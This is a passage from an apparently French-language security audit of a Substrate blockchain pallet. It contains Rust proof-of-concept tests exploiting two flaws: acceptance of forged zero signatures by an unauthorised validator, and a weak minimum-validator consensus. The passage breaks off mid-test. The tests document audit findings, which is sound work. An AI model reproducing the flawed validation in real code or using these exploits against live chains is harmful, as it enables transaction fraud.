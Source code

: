 ```rust
            <TransactionStartBlock<T>>::remove(transaction_id);
        }
    }
}
```

## 5. Tests exploitant les vulnérabilités découvertes

### 5.1. Exploitation de la validation insuffisante des signatures

```rust
#[test]
fn exploit_signature_validation() {
    new_test_ext().execute_with(|| {
        // Créer une transaction légitime
        let consumer = 1;
        let merchant = 2;
        let supplier = 3;
        
        assert_ok!(EtikaBlockchain::create_pop_transaction(
            Origin::signed(merchant),
            consumer,
            merchant,
            vec![supplier],
            100,
            10,
            5,
            [0; 32],
            sr25519::Signature::from_raw([0; 64]),
        ));
        
        let transaction_id = EtikaBlockchain::generate_transaction_id(&consumer, &merchant, 100);
        
        // Un attaquant (4) tente de valider avec une signature falsifiée
        let attacker = 4;
        // Dans la version actuelle, cette validation sera acceptée même si l'attaquant
        // n'est pas légitime pour valider!
        assert_ok!(EtikaBlockchain::validate_pop_transaction(
            Origin::signed(attacker),
            transaction_id,
            sr25519::Signature::from_raw([0; 64]),
        ));
    });
}
```

### 5.2. Exploitation du mécanisme de consensus faible

```rust
#[test]
fn exploit_minimum_validators() {
    new_test_ext().execute_with(|| {
        // Commerçant et fournisseur complices
        let consumer = 1;
        let merchant = 2;
        let malicious_supplier = 3;
        
        assert_ok!(EtikaBlockchain::create_pop_transaction(
            Origin::signed(merchant),
            consumer,
            merchant,
            vec![malicious_supplier],
```
